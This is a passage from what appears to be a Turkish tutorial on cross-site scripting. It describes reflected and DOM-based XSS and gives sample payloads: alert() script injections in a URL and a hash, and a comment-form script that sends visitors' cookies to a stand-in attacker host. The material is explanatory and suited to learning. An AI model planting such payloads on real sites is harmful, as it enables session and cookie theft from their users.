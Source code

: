 Bu kod, forumu veya yorumu ziyaret eden herkes için çalışacaktır.

#### 2. **Reflected XSS (Yansıtılmış XSS)**

Reflected XSS, saldırganın zararlı kodu doğrudan bir URL veya başka bir kullanıcı girişi yoluyla iletmesiyle ortaya çıkar. Bu tür saldırılar genellikle phishing (oltalama) amaçlı kullanılır.

##### Örnek:

Bir web sitesine şu şekilde bir URL ile saldırı yapılabilir:

```
http://example.com/search?q=<script>alert('Bu bir Reflected XSS saldırısıdır!');</script>
```

Eğer web sitesi, kullanıcıdan gelen `q` parametresini doğrulamadan yanıtına eklerse, bu kod çalıştırılır.

#### 3. **DOM-based XSS**

DOM-based XSS, istemci tarafında çalıştırılan JavaScript kodlarının, tarayıcıda Document Object Model (DOM) üzerinde manipülasyon yapmasıyla gerçekleşir. Bu tür saldırılar, tarayıcı tarafından işlenen girdilere dayanır ve genellikle tarayıcıda çalışır.

##### Örnek:

Bir web sitesi, URL'den bir parametre alarak sayfa içeriğini değiştiren bir JavaScript kodu kullanıyorsa:

```javascript
document.location.hash = "#name=<script>alert('Bu bir DOM-based XSS saldırısıdır!');</script>";
```

Bu durumda, URL'de belirlenen kod çalıştırılabilir.

### XSS Örnekleri

#### Örnek 1: Yorum Bölümü

Bir blog sitesindeki yorum bölümü, kullanıcıların yorumlarını görüntülerken girdileri doğru şekilde temizlemezse:

```html
<form method="POST">
  <input type="text" name="comment" />
  <input type="submit" value="Yorum Yap" />
</form>
```

Eğer kullanıcı şu şekilde bir yorum yaparsa:

```html
<script>document.location='http://hacker-site.com/steal?cookie='+document.cookie</script>
```

Bu kod, siteye giren diğer kullanıcıların çerez bilgilerini çalabilir.

#### Örnek 2: Arama Fonksiyonu
